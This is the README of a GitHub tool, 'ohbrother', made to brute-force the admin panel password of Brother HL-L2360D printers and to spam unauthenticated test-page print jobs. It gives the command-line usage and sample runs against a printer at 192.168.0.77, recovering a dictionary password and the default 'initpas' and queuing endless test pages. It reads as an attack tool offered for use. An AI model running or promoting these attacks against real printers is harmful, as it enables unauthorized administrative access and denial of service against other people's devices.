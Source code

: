 # ohbrother
Brother Printer Admin Panel Dictionary attack tool (Designed for the HL-L2360D series)
```
usage: ohbrother.py [-h] --ip-address IP_ADDRESS [--port PORT] [--wordlist WORDLIST]

Brother Printer Admin Panel Dictionary attack (Designed for the HL-L2360D series)

options:
  -h, --help            show this help message and exit
  --ip-address IP_ADDRESS, -i IP_ADDRESS
                        IP Address of the printer
  --port PORT, -p PORT  Port the admin interface is running on (default: 80)
  --dictionary-attack DICTIONARY_ATTACK, -D DICTIONARY_ATTACK
                        IP Address of the printer
  --print-spam, -S      continuously print test pages (unauthenticated)
  --wordlist WORDLIST, -W WORDLIST
                        Wordlist to use to attack the printer (default:
                        /usr/share/wordlists/rockyou.txt)
```

# Usage

## Dictionary Attack
Dictionary attack using the default wordlist
```
┌──(kali㉿kali)-[~]
└─$ python3 ohbrother.py --ip-address 192.168.0.77
[00:15:05] INFO - [*] Starting a dictionary attack on http://192.168.0.77:80/general/status.html
[00:16:19] INFO - [*] found correct password: shadow
```
Ohbrother checks for common default brother passwords

```
C:\Users\DrewQ\Desktop\Brother>python main.py --wordlist "C:\Users\DrewQ\Downloads\passwords.txt" --ip-address 192.168.0.77
[23:14:00] INFO - [*] default password was set: initpas
```

## Print Spam
```
C:\Users\DrewQ\Desktop\Brother>python ohbrother.py --print-spam --ip-address 192.168.0.77
[23:41:13] INFO - [*] queued a test page
[23:41:16] INFO - [*] queued a test page
[23:41:19] INFO - [*] queued a test page
```
